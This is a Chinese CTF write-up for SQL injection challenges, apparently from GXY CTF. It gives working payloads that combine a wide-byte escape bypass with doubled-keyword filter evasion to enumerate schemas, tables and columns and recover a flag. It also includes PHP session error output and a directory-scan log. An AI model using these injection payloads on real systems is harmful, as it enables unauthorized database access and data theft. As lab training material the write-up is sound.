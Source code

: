过滤select,union,where等

`a%bf%5c%27+ununionion+seselectlect+1,char(97,100,109,105,110),1%23`

回显密码

`a%bf%5c%27+ununionion+seselectlect+1,char(97,100,109,105,110),(SELselectECT+group_concat(schema_name)+FROM+information_schema.schemata)%23`



数据库:`information_schema,web_sqli`

`a%bf%5c%27+ununionion+seselectlect+1,char(97,100,109,105,110),(SELselectECT+group_concat(table_name)+FROM+information_schema.tables+WHEwhereRE+TABLE_SCHEMA=database())%23`

表:`f14g,user`

`a%bf%5c%27+ununionion+seselectlect+1,char(97,100,109,105,110),(SELselectECT+group_concat(column_name)+FROM+information_schema.columns+WHwhereERE+table_name=char(102,49,52,103))%23`



列:`b80bb7740288fda1f201890375a60c8f,327a6c4304ad5938eaf0efb6cc3e53dc`



读取flag,但是有长度限制

最后得到抖肩舞+flag

GXY{g0Od_job1im_so_vegetable}



## babysqliv3.0

对phpsession注入报错

```html
<br />
<b>Warning</b>:  session_start(): The session id is too long or contains illegal characters, valid characters are a-z, A-Z, 0-9 and '-,' in <b>/var/www/html/search.php</b> on line <b>2</b><br />
<br />
<b>Warning</b>:  session_start(): Cannot send session cache limiter - headers already sent (output started at /var/www/html/search.php:2) in <b>/var/www/html/search.php</b> on line <b>2</b><br />
<meta http-equiv="Content-Type" content="text/html; charset=uft-8"/><title>login</title><script>alert('Wrong pass');location.href='./index.php'</script><br />
<b>Warning</b>:  Unknown: The session id is too long or contains illegal characters, valid characters are a-z, A-Z, 0-9 and '-,' in <b>Unknown</b> on line <b>0</b><br />
<br />
<b>Warning</b>:  Unknown: Failed to write session data (files). Please verify that the current setting of session.save_path is correct () in <b>Unknown</b> on line <b>0</b><br />

```

```
[21:19:28] 200 -   89B  - /home.php
[21:19:29] 200 -  562B  - /index.php
[21:19:35] 200 -  253B  - /upload.php
[21:19:35] 301 -  327B  - /uploads  ->  http://183.129.189.60:10023/uploads/
[21:19:35] 403 -  300B  - /uploads/
```
